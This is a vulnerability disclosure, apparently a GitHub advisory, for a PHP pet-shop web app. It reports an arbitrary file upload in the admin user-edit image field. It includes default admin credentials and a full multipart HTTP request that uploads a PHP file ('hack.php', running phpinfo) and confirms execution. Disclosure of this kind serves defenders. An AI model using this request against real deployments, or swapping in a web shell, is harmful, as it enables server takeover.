 # Online Pet Shop We App v1.0 by oretnom23 has arbitrary code execution (RCE)

BUG_Author: z1pwn

Admind login account: admin/admin123

vendor: https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

Vulnerability url: http://ip/pet_shop/admin/?page=user ---> http://ip/pet_shop/classes/Users.php?f=save

Loophole location：The editing function of the "user" module in the background management system there is an arbitrary file upload vulnerability in the picture upload point.

Request package for file upload：

```sql
POST /pet_shop/classes/Users.php?f=save HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/pet_shop/admin/?page=user
Content-Length: 748
Content-Type: multipart/form-data; boundary=---------------------------192831994119577
Cookie: PHPSESSID=k8u390ikl968phg971gmpmhtj5
Connection: close

-----------------------------192831994119577
Content-Disposition: form-data; name="id"

1
-----------------------------192831994119577
Content-Disposition: form-data; name="firstname"

Adminstrator
-----------------------------192831994119577
Content-Disposition: form-data; name="lastname"

Admin
-----------------------------192831994119577
Content-Disposition: form-data; name="username"

admin
-----------------------------192831994119577
Content-Disposition: form-data; name="password"

admin123
-----------------------------192831994119577
Content-Disposition: form-data; name="img"; filename="hack.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------192831994119577--
```

The files will be uploaded to this directory \pet_shop\uploads
![image](https://user-images.githubusercontent.com/54017627/185293790-9267693f-3a2e-466f-aa92-d255baf7e6ce.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/185293897-fc3cfa05-d4a5-4d5e-b01c-f51274b489aa.png)
